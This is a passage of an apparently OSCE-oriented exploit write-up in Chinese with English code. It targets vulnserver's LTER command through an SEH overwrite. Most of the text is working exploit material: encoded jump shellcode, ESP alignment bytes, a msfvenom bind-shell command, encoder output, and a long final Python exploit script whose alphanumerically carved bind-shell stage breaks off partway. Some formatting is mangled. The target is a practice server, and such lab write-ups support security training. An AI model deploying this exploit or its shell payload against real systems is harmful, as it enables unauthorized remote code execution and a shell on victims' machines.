   sub eax, 7F7F7F7F = 2D020102
   sub eax, 2D020102 = 00000000
   push eax3) ADD Encoding (0DB9EB81)
   add eax, 07657641 = 07657641
   add eax, 06547540 = 0db9eb81
   push eax**### Encoded Long JMP** \x54                      # PUSH ESP
\x5B                      # POP EBX
\x25\x4A\x4D\x4E\x55      # Zero out EAX
\x25\x35\x32\x31\x2A      #
\x2D\x7F\x7F\x7F\x7F      # Carving \x00\x00\xFF\xD3
\x2D\x7F\x7F\x7F\x7F      #
\x2D\x02\x01\x02\x2D      #
\x50                      # PUSH EAX
\x25\x4A\x4D\x4E\x55      # Zero out EAX
\x25\x35\x32\x31\x2A      # 
\x05\x41\x76\x65\x07      # Carving \x81\xEB\xB9\x0D
\x05\x40\x75\x54\x06      #
\x50                      # PUSH EAX
```



编码长 JMP

一旦我们通过编码的外壳代码，长 JMP 将很快恢复到原来的状态。



解码长 JMP

一旦我们穿过漫长的 JMP，我们将真正到达“A”s 的起点，在那里我们将有大约 3000+的空间来放置我们的下一个有效载荷。

*   更新了第三阶段外壳代码 PoC 脚本:[第三阶段 _lter.py](https://github.com/bigb0sss/OSCE/blob/master/vulnserver/LTER%20-%20SEH%20Overwrite/3rd-stage_lter.py)

## #4 阶段外壳代码—绑定外壳

我们正处于获得绑定外壳的最后一步！在我们将 msfvenom 绑定到 shell 之前，我们再次需要将我们的`ESP`指向“A”的底部。

```
**### ESP Alignment (Bind Shell)**\x54             # PUSH ESP 
\x58             # POP EAX
\x2C\x3D         # ADD AL,0x3D *(0180FFB5 — 0180ff78 = 0x39)*
\x50             # PUSH EAX
\x5C             # POP ESP
```



ESP 校准

让我们生成一个`msfvenom`绑定外壳。

```
msfvenom -p windows/shell_bind_tcp LHOST=127.0.0.1 LPORT=443 BUFFERREGISTER=esp EXITFUNC=thread -f c -b "\x00"** BUFFERREGISTER: If we specify this flag, it will directly points our payload to the specified register*
```



MSF 毒液结合壳

我们的下一步将是编码由`msfvenom`生成的外壳代码。我们肯定可以手动完成这项工作；然而，我们将使用一个由@ihack4falafel 创建的名为 [Slink](https://github.com/ihack4falafel/Slink) 的出色编码器。

```
**### Encoding with Slink**root@kali:/opt/Slink# python Slink.py 
Enter your shellcode: \x89\xe7\xba\x16\xa7\xf4\x0b\x2b\xc9\xb1\x53\x83\xc7\x04\x31\x57\x0e\x03\x41\xa9\x16\xfe\x91\x5d\x54\x01\x69\x9e\x39\x8b\x8c\xaf\x79\xef\xc5\x80\x49\x7b\x8b\x2c\x21\x29\x3f\xa6\x47\xe6\x30\x0f\xed\xd0\x7f\x90\x5e\x20\x1e\x12\x9d\x75\xc0\x2b\x6e\x88\x01\x6b\x93\x61\x53\x24\xdf\xd4\x43\x41\x95\xe4\xe8\x19\x3b\x6d\x0d\xe9\x3a\x5c\x80\x61\x65\x7e\x23\xa5\x1d\x37\x3b\xaa\x18\x81\xb0\x18\xd6\x10\x10\x51\x17\xbe\x5d\x5d\xea\xbe\x9a\x5a\x15\xb5\xd2\x98\xa8\xce\x21\xe2\x76\x5a\xb1\x44\xfc\xfc\x1d\x74\xd1\x9b\xd6\x7a\x9e\xe8\xb0\x9e\x21\x3c\xcb\x9b\xaa\xc3\x1b\x2a\xe8\xe7\xbf\x76\xaa\x86\xe6\xd2\x1d\xb6\xf8\xbc\xc2\x12\x73\x50\x16\x2f\xde\x3d\xdb\x02\xe0\xbd\x73\x14\x93\x8f\xdc\x8e\x3b\xbc\x95\x08\xbc\xc3\x8f\xed\x52\x3a\x30\x0e\x7b\xf9\x64\x5e\x13\x28\x05\x35\xe3\xd5\xd0\xa0\xeb\x70\x8b\xd6\x16\xc2\x7b\x57\xb8\xab\x91\x58\xe7\xcc\x99\xb2\x80\x65\x64\x3d\xaf\xce\xe1\xdb\xc5\x20\xa4\x74\x71\x83\x93\x4c\xe6\xfc\xf1\xe4\x80\xb5\x13\x32\xaf\x45\x36\x14\x27\xce\x55\xa0\x56\xd1\x73\x80\x0f\x46\x09\x41\x62\xf6\x0e\x48\x14\x9b\x9d\x17\xe4\xd2\xbd\x8f\xb3\xb3\x70\xc6\x51\x2e\x2a\x70\x47\xb3\xaa\xbb\xc3\x68\x0f\x45\xca\xfd\x2b\x61\xdc\x3b\xb3\x2d\x88\x93\xe2\xfb\x66\x52\x5d\x4a\xd0\x0c\x32\x04\xb4\xc9\x78\x97\xc2\xd5\x54\x61\x2a\x67\x01\x34\x55\x48\xc5\xb0\x2e\xb4\x75\x3e\xe5\x7c\x95\xdd\x2f\x89\x3e\x78\xba\x30\x23\x7b\x11\x76\x5a\xf8\x93\x07\x99\xe0\xd6\x02\xe5\xa6\x0b\x7f\x76\x43\x2b\x2c\x77\x46
Enter shellcode variable name: stage4
[!] Shellcode size is not divisible by 4
[+] Padding shellcode with 2 NOPS..
[*] Encoding [90904677]..
[+] No bad character found, using default encoder..
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x33\x23\x50\x50" ## add  eax, 0x50502333
stage4 += "\x05\x44\x23\x40\x40" ## add  eax, 0x40402344
stage4 += "\x50"                 ## push eax
[*] Encoding [2c2b4376]..
[+] No bad character found, using default encoder..
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x33\x22\x16\x16" ## add  eax, 0x16162233
stage4 += "\x05\x43\x21\x15\x16" ## add  eax, 0x16152143
stage4 += "\x50"                 ## push eax
...snip...
```

一旦 Slink 完成了 bind shell 的编码，就将有效负载放在我们的`ESP`对齐 shell 代码旁边。

## 最终利用

```
**###** [**Final_lter.py**](https://github.com/bigb0sss/OSCE/edit/master/vulnserver/LTER%20-%20SEH%20Overwrite/final_lter.py) **(Source by bigb0ss)**import socket
import struct
import os
import sysvuln_command = "LTER _.?"
crash = 4000
offset = 3520
seh = struct.pack("<I", 0x6250120b)        # POP POP RET**# 1st Stage Shellcode (Short JMP - nSEH)**
stage1 = ""
stage1 += "\x75\x08"                       # JNZ SHORT [+0x10] = Jump if ZF is not 0
stage1 += "\x74\x06"                       # JZ SHORT [+0x8] = Jump if ZF is 0**# 2nd Stage Shellcode (Short JMP - Encoded \xEB\x80)**
stage2 = ""
stage2 += "\x54"                           # PUSH ESP 
stage2 += "\x58"                           # POP EAX
stage2 += "\x66\x05\x59\x13"               # ADD AX,0x1359 
stage2 += "\x50"                           # PUSH EAX
stage2 += "\x5C"                           # POP ESP
stage2 += "\x25\x4A\x4D\x4E\x55"           # Zero out EAX
stage2 += "\x25\x35\x32\x31\x2A"           # 
stage2 += "\x2D\x7F\x7F\x7F\x7F"           # Carving \xEB\x80
stage2 += "\x2D\x7F\x7F\x7F\x7F"           # \x90\x90
stage2 += "\x2D\x02\x50\x50\x50"           # 
stage2 += "\x2D\x15\x30\x20\x20"           # 
stage2 += "\x50"                           # PUSH EAX**# 3rd Stage Shellcode (Long JMP)**
stage3 = ""
stage3 += "\x54"                           # PUSH ESP 
stage3 += "\x58"                           # POP EAX
stage3 += "\x2C\x38"                       # ADD AL,0x38 
stage3 += "\x50"                           # PUSH EAX
stage3 += "\x5C"                           # POP ESP
stage3 += "\x54"                           # PUSH ESP
stage3 += "\x5B"                           # POP EBX
stage3 += "\x25\x4A\x4D\x4E\x55"           # Zero out EAX
stage3 += "\x25\x35\x32\x31\x2A"           #
stage3 += "\x2D\x7F\x7F\x7F\x7F"           # Carving \x00\x00
stage3 += "\x2D\x7F\x7F\x7F\x7F"           # \xFF\xD3
stage3 += "\x2D\x02\x01\x02\x2D"           #
stage3 += "\x50"                           # PUSH EAX
stage3 += "\x25\x4A\x4D\x4E\x55"           # Zero out EAX
stage3 += "\x25\x35\x32\x31\x2A"           # 
stage3 += "\x05\x41\x76\x65\x07"           # Carving \x81\xEB
stage3 += "\x05\x40\x75\x54\x06"           # \xB9\x0D
stage3 += "\x50"                           # PUSH EAX**# 4th Stage Shellcode (Bind Shell)**
# msfvenom -p windows/shell_bind_tcp LHOST=127.0.0.1 LPORT=443 BUFFERREGISTER=esp EXITFUNC=thread -f c -b "\x00"stage4 = ""
stage4 += "\x54"                           # PUSH ESP 
stage4 += "\x58"                           # POP EAX
stage4 += "\x2C\x3D"                       # ADD AL,0x38 
stage4 += "\x50"                           # PUSH EAX
stage4 += "\x5C"                           # POP ESP
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x33\x23\x50\x50" ## add  eax, 0x50502333
stage4 += "\x05\x44\x23\x40\x40" ## add  eax, 0x40402344
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x33\x22\x16\x16" ## add  eax, 0x16162233
stage4 += "\x05\x43\x21\x15\x16" ## add  eax, 0x16152143
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x63\x53\x16\x47" ## add  eax, 0x47165363
stage4 += "\x05\x53\x43\x15\x36" ## add  eax, 0x36154353
stage4 += "\x05\x62\x43\x13\x35" ## add  eax, 0x35134362
stage4 += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x55\x70\x73\x01" ## add  eax, 0x01737055
stage4 += "\x05\x44\x70\x63\x01" ## add  eax, 0x01637044
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x35\x74\x42\x14" ## add  eax, 0x14427435
stage4 += "\x05\x34\x64\x42\x13" ## add  eax, 0x13426434
stage4 += "\x05\x24\x53\x42\x13" ## add  eax, 0x13425324
stage4 += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x22\x46\x11\x43" ## add  eax, 0x43114622
stage4 += "\x05\x12\x35\x22\x33" ## add  eax, 0x33223512
stage4 += "\x05\x22\x33\x11\x33" ## add  eax, 0x33113322
stage4 += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x27\x34\x65\x20" ## add  eax, 0x20653427
stage4 += "\x05\x17\x44\x55\x10" ## add  eax, 0x10554417
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x43\x66\x27\x44" ## add  eax, 0x44276643
stage4 += "\x05\x43\x66\x16\x44" ## add  eax, 0x44166643
stage4 += "\x05\x42\x44\x25\x34" ## add  eax, 0x34254442
stage4 += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x33\x27\x73\x36" ## add  eax, 0x36732733
stage4 += "\x05\x42\x17\x72\x46" ## add  eax, 0x46721742
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x63\x60\x17\x62" ## add  eax, 0x62176063
stage4 += "\x05\x62\x50\x17\x52" ## add  eax, 0x52175062
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x11\x23\x33\x34" ## add  eax, 0x34332311
stage4 += "\x05\x12\x22\x33\x24" ## add  eax, 0x24332212
stage4 += "\x05\x11\x22\x22\x23" ## add  eax, 0x23222211
stage4 += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x32\x31\x15\x33" ## add  eax, 0x33153132
stage4 += "\x05\x22\x30\x15\x34" ## add  eax, 0x34153022
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x34\x53\x61\x73" ## add  eax, 0x73615334
stage4 += "\x05\x44\x44\x61\x62" ## add  eax, 0x62614444
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x21\x02\x62\x65" ## add  eax, 0x65620221
stage4 += "\x05\x11\x02\x52\x64" ## add  eax, 0x64520211
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x37\x25\x70\x06" ## add  eax, 0x06702537
stage4 += "\x05\x26\x25\x60\x06" ## add  eax, 0x06602526
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x62\x76\x33\x32" ## add  eax, 0x32337662
stage4 += "\x05\x51\x65\x33\x31" ## add  eax, 0x31336551
stage4 += "\x05\x62\x53\x33\x22" ## add  eax, 0x22335362
stage4 += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x62\x17\x44\x52" ## add  eax, 0x52441762
stage4 += "\x05\x51\x16\x44\x41" ## add  eax, 0x41441651
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x16\x31\x76\x26" ## add  eax, 0x26763116
stage4 += "\x05\x15\x30\x66\x15" ## add  eax, 0x15663015
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x17\x33\x65\x76" ## add  eax, 0x76653317
stage4 += "\x05\x16\x23\x54\x66" ## add  eax, 0x66542316
stage4 += "\x05\x15\x22\x44\x54" ## add  eax, 0x54442215
stage4 += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x55\x66\x62\x34" ## add  eax, 0x34626655
stage4 += "\x05\x55\x55\x61\x34" ## add  eax, 0x34615555
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x15\x30\x23\x62" ## add  eax, 0x62233015
stage4 += "\x05\x15\x40\x24\x51" ## add  eax, 0x51244015
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x30\x63\x31\x17" ## add  eax, 0x17316330
stage4 += "\x05\x40\x63\x20\x17" ## add  eax, 0x17206340
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x66\x47\x62\x62" ## add  eax, 0x62624766
stage4 += "\x05\x56\x46\x52\x52" ## add  eax, 0x52524656
stage4 += "\x05\x34\x35\x32\x32" ## add  eax, 0x32323534
stage4 += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x57\x13\x72\x71" ## add  eax, 0x71721357
stage4 += "\x05\x46\x04\x72\x61" ## add  eax, 0x61720446
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x07\x24\x12\x56" ## add  eax, 0x56122407
stage4 += "\x05\x07\x24\x02\x45" ## add  eax, 0x45022407
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x14\x31\x32\x73" ## add  eax, 0x73323114
stage4 += "\x05\x14\x22\x31\x63" ## add  eax, 0x63312214
stage4 += "\x05\x14\x21\x32\x53" ## add  eax, 0x53322114
stage4 += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x42\x41\x17\x33" ## add  eax, 0x33174142
stage4 += "\x05\x32\x41\x16\x23" ## add  eax, 0x23164132
stage4 += "\x05\x32\x31\x15\x23" ## add  eax, 0x23153132
stage4 += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x33\x50\x33\x71" ## add  eax, 0x71335033
stage4 += "\x05\x22\x50\x23\x60" ## add  eax, 0x60235022
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x23\x12\x13\x67" ## add  eax, 0x67131223
stage4 += "\x05\x13\x02\x14\x67" ## add  eax, 0x67140213
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x12\x22\x57\x33" ## add  eax, 0x33572212
stage4 += "\x05\x22\x21\x46\x23" ## add  eax, 0x23462122
stage4 += "\x05\x12\x22\x45\x22" ## add  eax, 0x22452212
stage4 += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x71\x63\x41\x63" ## add  eax, 0x63416371
stage4 += "\x05\x62\x52\x41\x53" ## add  eax, 0x53415262
stage4 += "\x05\x51\x62\x31\x32" ## add  eax, 0x32316251
stage4 += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x42\x36\x63\x76" ## add  eax, 0x76633642
stage4 += "\x05\x42\x25\x53\x65" ## add  eax, 0x65532542
stage4 += "\x05\x42\x24\x63\x54" ## add  eax, 0x54632442
stage4 += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x52\x32\x31\x42" ## add  eax, 0x42313252
stage4 += "\x05\x52\x42\x40\x41" ## add  eax, 0x41404252
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x71\x76\x63\x10" ## add  eax, 0x10637671
stage4 += "\x05\x70\x65\x62\x10" ## add  eax, 0x10626570
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x33\x26\x57\x66" ## add  eax, 0x66572633
stage4 += "\x05\x32\x26\x46\x55" ## add  eax, 0x55462632
stage4 += "\x05\x32\x24\x45\x46" ## add  eax, 0x46452432
stage4 += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x55\x61\x40\x33" ## add  eax, 0x33406155
stage4 += "\x05\x44\x51\x40\x32" ## add  eax, 0x32405144
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x51\x34\x73\x66" ## add  eax, 0x66733451
stage4 += "\x05\x40\x24\x74\x66" ## add  eax, 0x66742440
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x36\x33\x64\x56" ## add  eax, 0x56643336
stage4 += "\x05\x45\x24\x54\x55" ## add  eax, 0x55542445
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x46\x73\x13\x61" ## add  eax, 0x61137346
stage4 += "\x05\x45\x63\x03\x61" ## add  eax, 0x61036345
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x70\x50\x76\x30" ## add  eax, 0x30765070
stage4 += "\x05\x60\x50\x75\x40" ## add  eax, 0x40755060
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x03\x23\x72\x73" ## add  eax, 0x73722303
stage4 += "\x05\x02\x12\x71\x62" ## add  eax, 0x62711202
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x32\x37\x12\x14" ## add  eax, 0x14123732
stage4 += "\x05\x32\x27\x01\x14" ## add  eax, 0x14012732
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x21\x16\x46\x74" ## add  eax, 0x74461621
stage4 += "\x05\x21\x15\x35\x64" ## add  eax, 0x64351521
stage4 += "\x05\x21\x16\x33\x54" ## add  eax, 0x54331621
stage4 += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x47\x66\x32\x25" ## add  eax, 0x25326647
stage4 += "\x05\x46\x56\x31\x24" ## add  eax, 0x24315646
stage4 += "\x05\x35\x64\x22\x24" ## add  eax, 0x24226435
stage4 += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x53\x04\x66\x62" ## add  eax, 0x62660453
stage4 += "\x05\x42\x04\x56\x61" ## add  eax, 0x61560442
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x76\x47\x26\x66" ## add  eax, 0x66264776
stage4 += "\x05\x66\x47\x15\x56" ## add  eax, 0x56154766
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x42\x13\x42\x47" ## add  eax, 0x47421342
stage4 += "\x05\x32\x22\x42\x46" ## add  eax, 0x46422232
stage4 += "\x05\x32\x12\x42\x35" ## add  eax, 0x35421232
stage4 += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
